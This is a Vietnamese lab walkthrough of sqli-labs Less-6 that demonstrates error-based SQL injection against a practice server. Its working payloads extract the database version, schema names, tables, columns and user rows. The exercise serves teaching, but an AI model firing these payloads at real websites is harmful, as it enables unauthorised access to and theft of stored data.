









# Một số việc làm với được lesson-6.md
Sau khi đăng nhập vào lesson6



Đề bài có yêu cầu nhập id 
```
 Please input the ID as parameter with numeric value 
```
Kết quả sau khi nhập giá trị ID 



- Thêm một vài ký tự đăc biệt để nó show ra lỗi và giúp ta biết được là DB loại nào 
```
192.168.80.225/sqli-labs/Less-6/?id=1"
```



- Hiển thị version của DB 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```


## Chúng ta sẽ sử dụng error based để có thể tìm hiểu về DB của nó 
1. Hiển thị danh sách DB 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 0,1 ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



- Do nó chỉ hiện thị một dòng nên chúng ta sẽ phải sử dần limit để có thể hiển thị được tất cả các DB đã có.
- Tên của DB là `information_schema` còn `:1` Chỉ là ký tự được thêm vào để có thể hiển thị ra lỗi 

2. Hiển thị table của một DB nào đó đã biết tên 
- Ví dụ Chúng ta sẽ show table trong DB security 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='security' limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



- Chúng ta sẽ sửa limit để có thể thấy từng table trong DB. Example: ta thay `limit 0,1` thành `limit 1,1` 



- Chúng ta có thể  hiển thị tên bảng của DB khác bằng cách đổi tên DB. Ví dụ ta đổi tên DB security thành mysql 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='mysql' limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



4. Hiển thị tên cột trong một bảng 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT COLUMN_NAME FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



- Tương tự chúng ta phải tăng limit lên dần để có thể biết được hết tất cả thông tin của bảng mà ta đã chọn 
- Nếu muốn tìm đến các bảng khác ta sẽ thay tên của các bảng 

5. Show dữ liệu trong một bảng 
- Ví dụ ta show dữ liệu của cột `id` trong bảng `users` 
```
192.168.80.225/sqli-labs/Less-6/?id=1" and (SELECT 0 FROM (SELECT count(*), CONCAT((select id from security.users limit 0,1), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



tương tự ta muốn biết dữ liệu trong bảng nào thì ta sẽ thay câu lệnh truy vấn và tăng dần limit để có thể biết được hết 

